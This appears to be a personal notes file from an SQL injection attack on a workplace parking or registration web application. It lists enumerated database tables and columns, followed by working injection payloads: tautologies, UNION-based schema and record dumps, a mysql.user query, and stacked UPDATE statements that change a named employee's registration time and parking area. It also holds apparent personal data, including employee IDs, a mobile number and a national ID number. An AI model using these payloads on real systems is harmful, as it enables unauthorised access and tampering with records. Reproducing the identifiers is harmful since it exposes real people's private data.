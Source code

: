 | ID                | Name   | Parking Area | regtime            |
|-------------------+--------+--------------+--------------------|
| Dependent_Reguser | userid |            5 | 1900/1/3           |
| facility_list     | userid |            5 | 1900/1/3           |
| Shuttlecock       | userid |            5 | 1900/1/3           |
| mentalhealth      | userid |            5 | 1900/1/3           |
| regHR             | userid |            5 | 1900/1/3           |
| Survey            | userid |            5 | 1900/1/3           |
| S_Reguser         | userid |            5 | 1900/1/3           |
| Combo_Reguser     | userid |            5 | 1900/1/3           |
| Question          | userid |            5 | 1900/1/3           |
| person            | userid |            5 | 1900/1/3           |
| L_Reguser         | userid |            5 | 1900/1/3           |
| HL_Reguser        | userid |            5 | 1900/1/3           |
| free_2014         | userid |            5 | 1900/1/3           |
| exam              | userid |            5 | 1900/1/3           |
| A_reguser         | userid |            5 | 1900/1/3           |
| friend            | userid |            5 | 1900/1/3           |
| Product           | userid |            5 | 1900/1/3           |
| Tea_reguser       | userid |            5 | 1900/1/3           |
| QualityDay        | userid |            5 | 1900/1/3           |
| photo_library     | userid |            5 | 1900/1/3           |
| Sustainability    | userid |            5 | 1900/1/3           |
| Photo_Result      | userid |            5 | 1900/1/3           |
| car_info          | userid |            5 | 1900/1/3           |
| QualityDay_List   | userid |            5 | 1900/1/3           |
| reguser           | userid |            5 | 1900/1/3           |
| teched            | userid |            5 | 1900/1/3           |
| Dkmo_list         | userID |            5 | 1900/1/3           |
| BYD_reguser       | userid |            5 | 1900/1/3           |
| BYD_reg           | userid |            5 | 1900/1/3           |
| tb_lunch          | userid |            5 | 1900/1/3           |
| book_info         | userid |            5 | 1900/1/3           |
| C_reguser         | userid |            5 | 1900/1/3           |
| Travler           | userid |            5 | 1900/1/3           |
| ACI_reg           | userid |            5 | 1900/1/3           |
| news_result       | userid |            5 | 1900/1/3           |
| event_reg         | userid |            5 | 1900/1/3           |
| fin               | userid |            5 | 1900/1/3           |
| result            | userid |            5 | 1900/1/3           |
| FASTtrack         | userid |            5 | 1900/1/3           |
| Facility          | userid |            5 | 1900/1/3           |
| Video             | userid |            5 | 1900/1/3           |
| ad_class          | userid |            5 | 1900/1/3           |
| Employee_list     | userid |            5 | 1900/1/3           |
| UserSheet         | UserId |            5 | 1900/1/3           |
| Facility_Result   | userid |            5 | 1900/1/3           |
| BYD               | UserID |            5 | 1900/1/3           |
| Badges            | userid |            5 | 1900/1/3           |
| T_Know            | userid |            5 | 1900/1/3           |
| Developer         | userid |            5 | 1900/1/3           |
| hands             | userid |            5 | 1900/1/3           |
| T_result          | userid |            5 | 1900/1/3           |
| parking_permit    | userid |            5 | 1900/1/3           |
| Employee          | userid |            5 | 1900/1/3           |
| free              | userid |            5 | 1900/1/3           |
| Rope              | userid |            5 | 1900/1/3           |
| ad_class2         | userid |            5 | 1900/1/3           |


| Facility | id           | 5 | 1900/1/3 |
| Facility | userid       | 5 | 1900/1/3 |
| Facility | username     | 5 | 1900/1/3 |
| Facility | Mobile       | 5 | 1900/1/3 |
| Facility | Ext          | 5 | 1900/1/3 |
| Facility | ownership    | 5 | 1900/1/3 |
| Facility | relationship | 5 | 1900/1/3 |
| Facility | regtime      | 5 | 1900/1/3 |
| Facility | logintime    | 5 | 1900/1/3 |
| Facility | isdelete     | 5 | 1900/1/3 |
| Facility | ParkingArea  |   |          |


#+BEGIN_SRC sql
  insert into <TABLE>
          ('UserID', 'L_Name', 'Mobile', 'Ext', 'ParkingArea')
   values ('I046147', 'VINCENT', '13761506775', '320684198405243176',
   '\\' SELECT PVG06')

   I074192' or UserID = 'I068150s
   1' or '1' = '1

   i046147' or UserId = (Update employee set L_Name = 'Vince' where UserID = 'i046147') or '1' = '1;

   select * from employee where UserId like "%&UserID%"

   select * from employee where UserId like '%I074193%' or UserID = 'i074192' /* %'

   I074193' or UserID = 'i074192' -- 

   I074192' UNION ALL select 1, null, null from information_schema.columns --

   I074192' UNION ALL select 1, 'a', 'b', 'c', 'd', 'e', 'f', 2, 3, 4, 5 --

   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'Facility'--
   
   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'parking_permit' --

   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'C_reguser' --
   
   I074192' UNION ALL select 1, userid, username, 'c', 'd', 'e', 'f', regtime, 3, 4, 5 from Facility where userid='I046147'--

   I074192'; Update Facility set logintime = '2015/1/23 11:27:11', regtime = '2015/1/23 11:28:30', ParkingArea='' where userid = 'i046147' --

   I074192' UNION ALL select 1, Host, 'b', 'c', 'd', 'e', 'f', 2, 3, 4, 5 from mysql.user --
#+END_SRC
